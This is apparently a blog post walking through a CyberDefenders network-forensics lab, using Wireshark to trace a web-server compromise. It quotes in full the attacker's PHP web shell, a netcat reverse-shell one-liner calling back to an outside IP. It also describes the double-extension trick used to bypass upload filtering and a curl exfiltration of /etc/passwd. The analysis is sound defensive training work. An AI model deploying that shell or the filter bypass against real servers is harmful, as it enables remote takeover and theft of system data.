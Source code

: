 ```yaml
---
layout: post
title: "Web Attack Lab"
author: "Nicholas Coleman"
date: 2025-03-05
tags: cyberdefenders
---
```

### a vulnerable web server
#### the task
*A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.*  
*Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.*

#### Pt. 1
Tasked with finding out what exactly happened that flagged the anomaly, my first goal was to find out where this unauthorized activity was coming from. Going through the packet capture, I noticed that the source IP address, belonging to the potential threat actor, was 117.11.88.124. Using an online IP geolocation service, I was able to quickly find out that this IP was located in Tianjin, China.

![the IP location](/security.github.io/images/ip_geolocation.png)

Although the IP address belonging to someone in China was already a bit suspicious, I needed more evidence of it being malicious. My next plan of action? To find out the User-Agent associated with this address. Since attackers often spoof User-Agent strings to mask the tools they use as legitimate browsers/applications, finding the User-Agent string was imperative.

Since I was already in Wireshark, that wouldn't be too difficult. All that needs to be done is to inspect a captured HTTP GET request. Easily done by following an HTTP stream.

`*Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0*`

It looks like the attacker was using a Linux-based Firefox browser, which could help him blend in with the rest of the traffic. This is valuable information, because it can help detect future attempts easily.

Next, I needed to see if the attacker exploited any vulnerabilities on the company web server. They most likely uploaded malicious code to allow themselves remote control over the server. This is otherwise known as the *web shell*. 

To do that, I needed to isolate all of the HTTP POST requests coming from the attacker's IP address. 

`ip.src == 117.11.88.124 and http.request.method == "POST"`

![The first attempt](/security.github.io/images/fail_attempt_1.png)

Here the attacker is trying to upload a malicious script, innocently named, "image.php". 

Attackers will often name malicious files with innocuous names, so as to avoid suspicion. But the very fact that a mysterious IP address is attempting to inject a PHP script into the company web server is enough by itself.

![Part 2](/security.github.io/images/fail_attempt_2.png)

See their IP address nestled in that PHP script? That alone is suspicious, and supported my conclusion that the attacker was trying to establish a reverse shell. Clearly, they are with the `system` function. It seems this first attempt was a failure however. The company web server's filters were able to stop the malicious file from executing. 

![sucess](/security.github.io/images/attack_success.png)

The second attempt was successful though, and the malicious PHP file was uploaded succesfully. It was able to bypass the server's filtering, most likely because the attacker tricked the filtering mechanism by adding a .jpg extension before the .php extension. This effectively made the server bug out, because it read the .jpg extension first, and probably thouugh it was an innocent photo. 

Well, it wasn't. The input validation mechanism of this server should definitely be updated!

---

#### Pt. 2

My next step was to identify the web server's directory that is used for storing uploaded files. This is crucial to locating the malicious upload, and locating the vulnerable page. To do that, I would have to find the URI identifying that directory. So I entered the following:

`http.request.uri contains "image.jpg.php"`

From there I found out the web server uses the directory: /reviews/uploads/ for storing uploaded files. At this point, mentioning this vulnerability would be my priority in the real world, and as an entry-level analyst I would most likely escalate this issue. Escalation makes sense because the attacker is exploiting important server infrastructure. 

Finding the port used by the attacker was also simple. It is located within the content of the uploaded web shell file. 

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`

By examining the content of this file, I was able to notice this part: *nc 117.11.88.124 8080*. This reveals to me that the attacker was using netcat (nc) to attempt to establish a connection back to the attacker's system, while using port 8080. 

This information is vital when investigating a breach such as this one. Finding the port number helps in identifying the attacker's method as well as help in configuring the firewall/IDS systems to block 8080 connections in the future, if they are unneeded. 

My last step involves finding out the exact name of the file that the attacker attempted to exfiltrate. To do that, I entered a query in that would isolate data being sent from the victim web server using port 8080 (the same port the attacker was using). 

`(tcp.port == 8080) && (ip.src == 24.49.63.79)`

![curl evidence](security.github.io/images/curl_evidence.png)

I was quickly able to find that the attacker used curl to attempt to exfiltrate etc/passwd. Obviously, that is a critical file, as it contains information on all system users. Nowadays, passwords are stored in shadow files, so the passwords are going to be safe. But in terms of value, etc/passwd is extremely useful for attackers. 

It can help them map the network out, and give them knowledge as to areas they can exploit. It is extremely valuable recon intel. 

---

With that, I was finished with the task at hand. This was a fun lab! Using Wireshark to figure out exactly what happened is almost like being a digital detective. It feels like a puzzle waiting to be solved. Although at times it can be frustrating, the process does feel intuitive after a while. 

Here are my findings in a concise 5W format. 

WHO: `117.11.88.124` (located in Tianjin, China)
WHERE: Vulnerable web server, using Port 8080
WHEN: Thu, 30 Nov 2023 18:44:19 GMT
WHAT: Malicious php script uploaded on web server
WHY: For the purpose of exfiltrating etc/passwd

Thank you for reading through my first blog post! More will be coming shortly. I will try and upload most of the labs I work on, if they are in anyway interesting. 
